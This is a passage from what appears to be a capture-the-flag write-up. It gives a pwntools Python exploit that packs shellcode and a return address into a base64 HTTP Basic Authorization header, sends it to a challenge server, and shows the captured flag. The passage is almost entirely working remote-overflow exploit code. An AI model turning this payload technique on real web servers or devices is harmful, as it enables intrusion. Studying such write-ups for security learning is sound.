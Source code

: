 ```python
shellcode += b"\x00\x30\x48\xd1\xc0\x06\x08\x18\x00\x30\x6c\x37\x00\x40\x06\xde\x00\x30\x48\x51\xdb\x46\x08\x18\x00\x30\x48\xd1\xc3\x86\x08\x18"
shellcode += b"\x00\x30\x6c\x37\x00\x40\x3e\xde\x00\x30\x48\x51\xdb\x46\x08\x18\x00\x30\x6c\x37\x00\x40\x16\xde\x00\x30\x48\x51\xdb\x46\x08\x18"
shellcode += b"\x00\x30\x48\xd1\xe1\x7f\x09\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x48\xd1\xe1\x37\x0b\x18"
shellcode += b"\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x48\xd1\xe1\x67\x0b\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc"
shellcode += b"\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x48\xd1\xe1\x0f\x0b\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\x51\xdb\x0e\x08\x18"
shellcode += b"\x00\x30\x48\xd1\xe1\x3f\x0b\x18\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x30\x48\xd1\xe1\x07\x08\x18"
shellcode += b"\x00\x30\x6c\x33\x00\x40\x1e\xdc\x00\x30\x48\x51\xdb\x0e\x08\x18\x00\x50\x48\x51\x00\x18\x6b\x28"

payload = b'admin:a0p_s3cr37_!@#'*7+b'admin:70p_s3cr37_!@#'+b'123'+p64(0x10211e8)+b'\x00xuanxua\x00yuanyuaaaaaa'+b'a'*8+shellcode
payload = base64.b64encode(payload)

http =  b"GET / HTTP/1.1\n"
http += b"Host: 111.186.59.27:28088\n"
http += b"Cache-Control: max-age=0\n"
http += b"Authorization: Basic "+payload+b'\n';
http += b"Upgrade-Insecure-Requests: 1\n"
http += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36\n"
http += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\n"
http += b"Accept-Encoding: gzip, deflate\n"
http += b"Accept-Language: zh-CN,zh;q=0.9\n"
http += b"Connection: close\n\n"
io = remote("111.186.59.27",28088)
io.send(http)
io.interactive()
```

```python
➜  python3 exp.py
[+] Opening connection to 111.186.59.27 on port 28088: Done
[*] Switching to interactive mode
flag{rop_on_t1111111le-gx_is_funny_27b7d3}

[*] Got EOF while reading in interactive
```

## 总结

重要性：运行 > 调试 > 编译 > 逆向